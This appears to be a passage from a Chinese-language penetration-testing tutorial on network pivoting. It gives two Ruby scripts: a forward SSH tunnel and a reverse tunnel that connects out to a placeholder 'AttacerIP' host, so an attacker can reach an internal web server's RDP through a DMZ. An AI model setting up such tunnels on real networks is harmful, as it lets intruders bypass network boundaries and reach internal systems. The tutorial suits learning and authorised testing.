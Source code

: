 在**SSH 服务器**上运行 ssh-ftunnel.rb

**ssh-ftunnel.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end 
```

现在通过 RDP 客户端连接到端口 3333 的**SSH 服务器**，你将被提示输入**WebServer**的 RDP 登录界面

```
rdesktop WebServer:3333 
```

### 反向 SSH 隧道

```
 |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------| 
```

在**SSH 服务器**上运行 ssh-rtunnel.rb

**ssh-rtunnel.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')

  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end 
```

现在从**SSH 服务器**通过 localhost 的 SSH 端口 SSH 到**localhost**，然后通过 RDP 客户端从 localhost 连接到端口 3333 的 localhost，你将被提示输入**WebServer**的 RDP 登录���面

```
rdesktop localhost:3333 
```

